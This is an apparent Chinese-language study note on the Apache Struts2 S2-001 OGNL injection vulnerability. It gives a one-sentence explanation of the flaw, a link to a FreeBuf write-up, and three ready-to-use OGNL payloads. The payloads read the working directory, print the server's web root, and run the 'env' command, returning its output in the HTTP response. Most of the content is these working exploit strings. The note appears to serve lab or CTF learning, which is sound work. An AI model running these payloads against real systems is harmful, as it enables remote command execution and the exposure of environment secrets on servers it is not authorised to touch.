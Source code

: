 # 知识点
### 漏洞原理
> struts2漏洞 S2-001是当用户提交表单数据且验证失败时，服务器使用OGNL表达式解析用户先前提交的参数值，%{value}并重新填充相应的表单数据

[Vulhub漏洞系列：struts2漏洞 S2-001 - FreeBuf网络安全行业门户](https://www.freebuf.com/column/224041.html)<br />下面给出三条利用语句：
```plsql
%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}
```
```plsql
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
```
```plsql
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"env"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```
# 思路
